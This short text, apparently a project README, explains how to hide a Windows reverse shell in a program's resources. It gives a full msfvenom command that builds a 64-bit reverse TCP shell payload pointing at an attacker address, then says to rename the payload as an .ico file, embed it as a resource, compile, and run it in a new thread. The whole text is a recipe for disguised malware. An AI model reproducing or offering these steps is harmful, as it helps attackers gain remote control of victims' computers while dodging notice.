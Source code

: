 Using msfvenom -p windows/64/shell_reverse_tcp LHOST=ipaddres LPORT=port -f raw -o shell generate a payload and save it in a file
and change the file to a .ico file in windows file explorer. Update the resource file with the new payload and compile the file. 
This would generate a reverse shell payload. The code prints the address of the payload and the size of the payload. Still working 
on execution and will update when I find a solution.
Solution was creating a thread to execute the payload.